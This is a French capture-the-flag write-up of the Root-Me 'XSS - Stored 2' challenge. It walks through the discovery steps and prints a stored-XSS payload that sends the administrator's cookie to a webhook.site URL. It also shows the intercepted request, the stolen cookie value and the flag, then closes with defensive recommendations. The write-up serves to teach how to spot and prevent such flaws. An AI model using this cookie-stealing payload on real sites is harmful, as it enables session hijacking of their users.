






## Challenge 9 – XSS Stored 2

- **Nom :** XSS - Stored 2
- **URL :** https://www.root-me.org/fr/Challenges/Web-Client/XSS-Stored-2

### Étapes de découverte

1. Ouverture du challenge Root-Me et accès au forum v0.002. On est connecté en tant qu'utilisateur avec le statut `invite`.
   
2. Observation de la page : on peut poster des messages sur le forum. On remarque qu'un administrateur lit les messages postés ("Message read (status: admin)").
3. Envoi d'un message test et capture de la requête `POST /web-client/ch19/` dans Burp Suite via `Proxy → HTTP history`, puis envoi vers `Repeater`.
   
4. Création d'une URL sur **webhook.site** pour recevoir les requêtes entrantes et ainsi capturer le cookie de l'administrateur.
   
5. Injection du payload XSS dans le cookie `status` via Burp Repeater. On insère l'URL du webhook dans le payload pour rediriger l'admin et récupérer son cookie :
   ```html
   '"><script>document.location.href="https://webhook.site/3f21466a-2a80-42a2-904d-51333f0a9d63?cookie_admin="+document.cookie</script>
   ```
   
6. Attente que l'administrateur lise le message. Lorsqu'il visite la page, le script malveillant s'exécute dans son navigateur et envoie son cookie vers webhook.site.
7. Réception de la requête sur webhook.site contenant le cookie admin : `ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`.
   
8. Ajout du cookie `ADMIN_COOKIE` récupéré dans notre navigateur via les DevTools (onglet Application -> Cookies). On se rajoute le cookie avec la valeur `SY2USDIH78TF3DFU78546TE7F` reçue du webhook.
   
9. Un bouton "admin" est apparu sur la page, qui redirige vers `?section=admin`. En cliquant dessus, on accède à la section admin et on récupère le flag : `E5HKEGyCXQVsYaehaqeJs0AfV`.
   

### Payload utilisé

**Payload XSS utilisé pour voler le cookie :**

```html
'"><script>document.location.href="https://webhook.site/3f21466a-2a80-42a2-904d-51333f0a9d63?cookie_admin="+document.cookie</script>
```

**Requête POST interceptée :**

```text
POST /web-client/ch19/ HTTP/1.1
Host: challenge01.root-me.org
Content-Length: 33
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-client/ch19/
Accept-Encoding: gzip, deflate, br
Cookie: status=invite; _ga=GA1.1.1216086985.1764691416; _ga_SRYSKX09J7=GS2.1.s1764691415$o1$g1$t1764691499$j54$l0$h0
Connection: keep-alive

titre=test&message=qweqwe%0D%0A
```

### Les recommandations

**Pour prévenir les vulnérabilités XSS stockées :**

1. **Encoder les sorties (Output Encoding)** : Lorsqu'on affiche des données utilisateur dans une page HTML, il faut les encoder pour que le navigateur les traite comme du texte et non comme du code exécutable. Par exemple, si un utilisateur entre `<script>alert('XSS')</script>`, l'encodage transforme les caractères spéciaux en entités HTML : `&lt;script&gt;alert('XSS')&lt;/script&gt;`. Ainsi, le navigateur affiche littéralement le texte au lieu d'exécuter le script. En PHP, on utilise `htmlspecialchars()` pour effectuer cet encodage.

2. **Valider et assainir les entrées** : Filtrer les données utilisateur à l'entrée en utilisant une liste blanche de caractères autorisés. Rejeter ou nettoyer les balises HTML et les caractères spéciaux.

3. **Utiliser une Content Security Policy (CSP)** : Implémenter des en-têtes CSP stricts pour empêcher l'exécution de scripts inline et limiter les sources de scripts autorisées.

4. **Utiliser le flag HttpOnly sur les cookies sensibles** : Les cookies marqués `HttpOnly` ne sont pas accessibles via JavaScript (`document.cookie`), ce qui empêche leur vol via XSS.

5. **Utiliser le flag SameSite sur les cookies** : Configurer les cookies avec l'attribut `SameSite` pour contrôler leur envoi dans les requêtes cross-site :
   - `SameSite=Strict` : Le cookie n'est jamais envoyé lors de requêtes provenant d'un site tiers. C'est le niveau de protection le plus élevé, mais peut impacter l'expérience utilisateur (ex: liens depuis un email).
   - `SameSite=Lax` : Le cookie est envoyé uniquement pour les navigations de premier niveau (GET) provenant d'un site tiers, mais pas pour les requêtes POST ou les ressources embarquées (images, iframes). C'est le comportement par défaut des navigateurs modernes.
   - `SameSite=None` : Le cookie est envoyé dans toutes les requêtes, y compris cross-site. Nécessite obligatoirement le flag `Secure` (HTTPS). À éviter sauf cas spécifique.

6. **Utiliser des frameworks modernes** : Les frameworks comme React, Angular ou Vue.js échappent automatiquement les données par défaut, réduisant le risque de XSS.

**Références :**
- https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- https://owasp.org/www-community/attacks/xss/

